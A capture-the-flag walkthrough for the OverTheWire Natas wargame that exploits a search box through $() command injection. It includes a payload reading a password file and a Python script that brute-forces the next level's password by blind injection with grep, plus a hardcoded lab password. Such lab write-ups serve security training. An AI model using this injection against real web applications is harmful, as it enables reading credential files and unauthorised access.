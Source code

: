 # Natas Level 14 → Level 15

> URL : http://natas16.natas.labs.overthewire.org/

- In this level we have a search box.
- let's try searching `a`, okay we get a list of words containing a
- let's try something random like `asdf`, this time we don't get back anything
	- so if the entered letter **does not exist** in the file it returns nothing
- let's read the source code
- okay so   **/[;|&\`\'"]/** are not allowed
- now we can use `$()` to execute bash commands
	- eg: `$(cat /etc/natas_webpass/natas16)`
- now we have to brute force the password
- We can do this with python 

```python
import requests
from requests.auth import HTTPBasicAuth

# used to login to the current level  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  

# stores the password as we find out using the loop
passwd = ''  

allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for i in range(32):  
 for char in allchars:
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=African$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  # checks wether the text returned after the above request consists of the word "African"
  if 'African' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```
- and we get the password for the next level!!
![lvl_16](lvl_16.png)

> **NOTE :** this script takes a while to run, not the fastest.